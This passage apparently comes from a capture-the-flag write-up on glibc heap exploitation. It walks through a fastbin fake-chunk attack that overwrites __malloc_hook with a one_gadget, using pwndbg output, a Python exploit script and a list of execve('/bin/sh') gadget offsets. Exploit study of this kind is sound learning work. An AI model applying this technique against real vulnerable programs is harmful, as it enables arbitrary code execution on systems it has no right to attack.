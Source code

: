 `0x7ffff7dd1aed` can be used as the address of our fake chunk. Calculating the
distance from the `__malloc_hook`:

```  
pwndbg> distance &__malloc_hook 0x7ffff7dd1aed  
0x7ffff7dd1b10->0x7ffff7dd1aed is -0x23 bytes  
```

After linking our fake chunk at the above address into the fastbins, we can
finally overwrite `__malloc_hook` with a one_gadget (since we don't directly
control arguments to `calloc`). I used the second one:  
  
```python  
# Get pointer to fake 0x70-sized chunk near __malloc_hook  
# by overwriting fd of first fast chunk  
create(3, p64(libc.sym.__malloc_hook - 0x23))

# move pointer to fake chunk to head of fastbin  
create(3, 'junk')  
create(3, 'junk')

# overwrite __malloc_hook using our fake chunk  
# accounting for the fact that malloc returns pointers  
# to chunk headers but operates on user data,  
# That's why we use 0x13 instead of 0x23  
create(3, p8(0) * 0x13 + p64(libc.address + 0x4527a))

# trigger one-gadget  
sla(b'choice: ', b'1')  
sla(b'choice: ', b'1')

# =-=-=-==-=-=-=-=-=  
io.interactive()  
```

One-gadgets for reference:

```c  
# One gadgets  
0x45226 execve("/bin/sh", rsp+0x30, environ)  
constraints:  
 rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)  
constraints:  
 [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)  
constraints:  
 [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)  
constraints:  
 [rsp+0x70] == NULL  
```
